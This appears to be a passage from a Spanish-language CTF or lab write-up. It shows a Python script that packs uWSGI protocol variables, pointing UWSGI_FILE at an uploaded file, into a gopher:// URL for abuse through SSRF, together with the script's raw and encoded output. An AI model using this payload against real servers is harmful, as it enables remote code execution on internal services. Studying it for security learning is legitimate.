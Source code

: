 
Ejecutamos el script y tenemos la papa.

{% highlight bash %}
q3rv0@raven /tmp$ python2.7 pack_uwsgi.py                                                                                                            
�REQUEST_METHODGET	HTTP_HOST127.0.0.1:5000	PATH_INFO/
                                                          SERVER_NAME127.0.0.1:5000SERVER_PROTOCOHTTP/1.1
                                                                                                         QUERY_STRING
                                                                                                                     SCRIPT_NAME/pwned
UWSGI_FILE"/app/application/static/emoji.json
                                             REQUEST_URI

{% endhighlight %}

Como concha le mando eso al server por medio de un SSRF?, con `gopher://` papu.

`pack_uwsgi.py`
{% highlight python %}
import urllib

var = {
        'SERVER_PROTOCOL': 'HTTP/1.1',
        'REQUEST_METHOD': 'GET',
        'PATH_INFO': '/',
        'REQUEST_URI': '',
        'QUERY_STRING': '',
        'SERVER_NAME': '127.0.0.1:5000',
        'HTTP_HOST': '127.0.0.1:5000',
        'UWSGI_FILE': '/app/application/static/emoji.json',
        'SCRIPT_NAME': '/pwned'
    }

def sz(x):
    s = hex(x if isinstance(x, int) else len(x))[2:].rjust(4, '0')
    s = s.decode('hex')
    return s[::-1]


def pack_uwsgi_vars(var):
    pk = b''
    for k, v in var.items() if hasattr(var, 'items') else var:
        pk += sz(k) + k.encode('utf8') + sz(v) + v.encode('utf8')
    result = b'\x00' + sz(pk) + b'\x00' + pk
    return result

gopher_payload = "gopher:///127.0.0.1:5000/_%s" % urllib.quote(pack_uwsgi_vars(var))

print(gopher_payload)

{% endhighlight %}

Output:

{% highlight text %}
gopher:///127.0.0.1:5000/_%00%DA%00%00%0E%00REQUEST_METHOD%03%00GET%09%00HTTP_HOST%0E%00127.0.0.1%3A5000%09%00PATH_INFO%01%00/%0B%00SERVER_NAME%0E%00127.0.0.1%3A5000%0F%00SERVER_PROTOCOL%08%00HTTP/1.1%0C%00QUERY_STRING%00%00%0B%00SCRIPT_NAME%06%00/pwned%0A%00UWSGI_FILE%22%00/app/application/static/emoji.json%0B%00REQUEST_URI%00%00

{% endhighlight %}
